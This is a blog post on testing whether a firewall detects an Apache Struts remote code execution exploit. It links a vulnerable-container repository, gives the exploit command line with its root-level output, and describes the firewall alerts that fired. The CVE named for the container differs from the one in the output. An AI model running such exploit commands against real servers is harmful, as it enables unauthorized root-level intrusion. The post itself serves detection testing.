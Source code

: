 ```yaml
---
layout: post
date:   2020-04-05 10:44:45 -0400
title:  "Web Server Compromise - Apache Struts"
categories: initialaccess
---
```

<p>
Remotely exploiting servers in DMZ's seems so unecessary today with all of the credential theft and client side exploitation, but it is still a critical link in the attack chain. Cloud initiatives are allowing administrators to start up servers all over the place, and most of the time they do not have the same protections in the cloud they typically would in the DMZ. This attack could also be applied for lateral movement if the vulnerable web application is only accessible internally.
</p>

<h3>Step 1 - Deploy the Apache Struts</h3>

<p>
The intrstructions to build your own vulnerable container can be found here, <a href="https://github.com/freshdemo/ApacheStruts-CVE-2018-11776">https://github.com/freshdemo/ApacheStruts-CVE-2018-11776</a>.
</p>

<p>
Typically I will not re-engineer the whole environment to setup a DMZ for this, but you could. You can also put the container outside the device under testing and the attack will be from the perspective of your internal client exploiting a server outside of the network.
</p>


<h3>Step 2 - Run the Exploit</h3>

<p>
From a terminal behind your device under testing, run the exploit against the vulnerable server. 
</p>

<code>
   python ./exploit.py http://13.88.250.188:8080 'id'
</code>
<br>

<p>
Your output should look like this.
</p>
<pre>
root@k:/home/s# python ./exploit.py http://13.88.250.188:8080 'id'
[*] CVE: 2017-5638 - Apache Struts2 S2-045
http://13.88.250.188:8080 : [*] cmd: id

uid=0(root) gid=0(root) groups=0(root)
</pre>


<h3>Step 3 - View the Results</h3>


<p>
Looking at the following NGFW log we can see that the NGFW prevented the session. 
</p>
<p>
You will notice that there are actually 3 alerts that have triggered; Apache Struts2 OGNL Remote Code Execution Vulnerability, Apache Struts 2 Remote Code Execution, and Apache Struts Jakarta Multipart Parser Remote Code Execution Vulnerability. The reason there are 3 is because after the first the detection an exception was made for the first alert and the attack was run again, and subsequently prevented by the second alert. The second alert was then added to the exceptions and the exploit was run again resulting in the third alert.
</p>
<br>
<br>
<img src="/images/apache-struts.png" alt="ngfw">



